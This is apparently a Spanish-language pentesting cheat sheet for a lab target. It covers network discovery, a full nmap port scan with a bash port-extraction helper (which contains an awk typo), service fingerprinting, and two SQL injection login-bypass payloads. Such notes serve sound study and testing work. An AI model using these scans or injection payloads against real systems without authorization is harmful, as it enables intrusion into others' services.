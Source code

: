 # Escaneo de IPs
```
arp-scan -I ens33 --localnet
```

# Listar dispositivos con su MAC
```
macchanger -l
```
# Listar dispositivos con su MAC y filtrar
```
macchanger -l | grep -i vmware
```

# Verificar si llega conectividad directa
```
ping -c 1 192.168.111.8
```
# Escanear puertos sin resolucion DNS y exportar los datos en fromato Grep
```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.111.45 -oG allPorts 
```
# Visualizar archivo
```
cat allPorts
```

# script bash extraccion de puertos
```

# Extract nmap information
function extractPorts(){
    ports="$(cat $1 | grep -oP '\d{1,5}/open' | awk '{print $1}' FS='/' | xargs | tr ' ' ',')"
    ip_address="$(cat $1 | grep -oP 'Host: .* \(\)' | head -n 1 | awk '{pint $2}')"
    echo -e "\n[*] Extracting information...\n" > extractPorts.tmp
    echo -e "\t[*] IP Address: $ip_address"  >> extractPorts.tmp
    echo -e "\t[*] Open ports: $ports\n"  >> extractPorts.tmp
    echo $ports | tr -d '\n' | xclip -sel clip
    echo -e "[*] Ports copied to clipboard\n"  >> extractPorts.tmp
    cat extractPorts.tmp 
    rm extractPorts.tmp
}

```

# Lanzar scripts de reconocimiento y deteccion de version y servicios para los puertos especificados y exportar en texto al archivo targeted
```
nmap -sC -sV -p22,80 192.168.111.45 -oN targeted
```
# Mostrar tecnologias de una web
```
whatweb http://192.168.111.45
```
# Inyeccion sql de prueba para login
```
admin' or 1=1-- -
admin' and sleep(5)-- -

```

